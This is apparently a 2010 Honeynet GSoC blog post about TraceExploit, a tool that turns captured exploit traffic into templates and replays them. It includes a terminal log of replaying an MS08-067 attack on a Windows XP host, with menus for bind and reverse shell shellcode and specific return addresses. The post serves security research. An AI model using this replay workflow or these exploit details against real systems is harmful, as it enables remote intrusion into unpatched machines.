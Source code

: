 ```yaml
---
title: "TraceExploit: Replaying method dissection"
authors: ["Zhongjie Wang"]
date: "2010-08-17"
categories: 
  - "gsoc"
tags: 
  - "exploit-replay"
  - "gsoc"
  - "traceexploit"
---
```


I've been working on the GSOC Project 14 in recent months. We are meant to start a new tool which can replay the collected exploit traces.  

We know that during the process of exploit replay, there're many fields need to be changed in the original application messages. Some of them are platform independent, and the others are platform specific. Platform-independent variables are those changed each time we exploit, like timestamp, cookie, length, etc. And platform-specific variables are those changed only if the target system is changed, like target address, return address point to the shellcode.  

As a preprocessing stage, all the variables need to be marked out in the application messages, so we have a Discoverer module to extract the common exploit template from a pack of exploit traces aiming at certain vulnerability. Then the rest part of this article is a brief introduction about how to perform replay with the exploit template.  

Replayer do the following work:  

1. Load the template into structures in memory. The template is in XML format and an example is attached. It includes three main sections, message sequences, variable list and exploit information.  
2. User input exploit options and specify some of the variable values like target address, application args, and choose the shellcode to run.  
3. Auto detect the target environment or user specify it. Then the tool will generate the values of rest variables.  
4. Perform the replay. Fill the application messages with variable values before sending, and retrieve the variable values from received messages.  
5. Examine whether the replay is successful.  

I have done some experiments based on the ms08-067 vulnerability. First I used Metasploit to attack a xp sp2 target host and captured the packets. Then made it into exploit template. After that, I used Replayer to perform an attack to a xp sp3 host. Here's the result:  
  
```
alan@alan-desktop:~/Work/workspace/replayer$ ./replayer profile2.xml  
TraceXploit (POC) Replayer 0.1  
https://www.honeynet.org  
by Zhongjie Wang 2010.8.15  
  
Loading exploit template 'profile2.xml'...ok.  
Retrieving arguments list...ok.  
  
[Basic User Options]  
(which are related to target environment, like ip, port, etc.)  
Target IP:219.223.192.149  
Port:445  
Select target OS:  
1. Automatic Targeting  
2. Windows 2000  
3. Windows XP SP1 Simplified Chinese  
4. Windows XP SP2 Simplified Chinese  
5. Windows XP SP3 Simplified Chinese  
Input the number: 4  
  
[Advanced User Options]  
(which are related to the vulnerability we're exploiting.)  
Variable name: smbpipe  
Variable type: arguments  
Possible values: BROWSER, SRVSVC  
Input the value: BROWSER  
  
[Exploit Options]  
(which user can customize shellcode and return address.)  
Here're all the shellcode available:  
1. Windows Cmd Shell, Bind TCP Inline  
2. Windows Cmd Shell, Reverse TCP Inline  
3. Windows Execute Command  
Please input the number: 3  
*******************************  
* windows/exec - 196 bytes *  
* http://www.metasploit.com *  
* Encoder: generic/none *  
*******************************  
Cmd to run:calc  
shellcode has been replaced.  
auto selected return address 'disablenx': 0x58fc17c2  
auto selected return address 'jmpesi': 0x58fbf807  
  
Begin to replay exploit to 219.223.192.149:445...  
Data flow in hex format is saved into 'dataflow.txt'.  
Update variable 'ip' in seq 0 msg 8, offset 50. 
Update variable 'smbpipe' in seq 0 msg 10, offset 88. 
Update variable 'length_18' in seq 0 msg 18, offset 1. 
in seq 0. Connection reset by peer  
replay has been done.  
```
  
The hex data transfered between two machines are saved into 'dataflow.txt' which is also attached.  

In this version of replayer, following variable types are taken into consideration:  

- **IP, Port** usually the values of IP and port for initial connection should be given by user, and the values of that for successive connections should be get from messages.  
- **Argument** usually means the arguments used to access the vulnerable services, e.g, username, password, address...  
- **Cookie** cookies are retrieved from the received messages and filled into the sending messages.  
- **Length** automatically calculated before messages are sent.
- **Shellcode** now we have three shellcodes written into the source code.
- **Return Address** we built a tiny return address database in order to detect the return addresses in messages and choose alternative return addresses.

Because I don't know how to upload file here, here's the link to the attachment:  
[a exploit template sample](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRjRgwQM/profile2.xml)  
[dataflow.txt](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRi5iwQM/dataflow.txt)
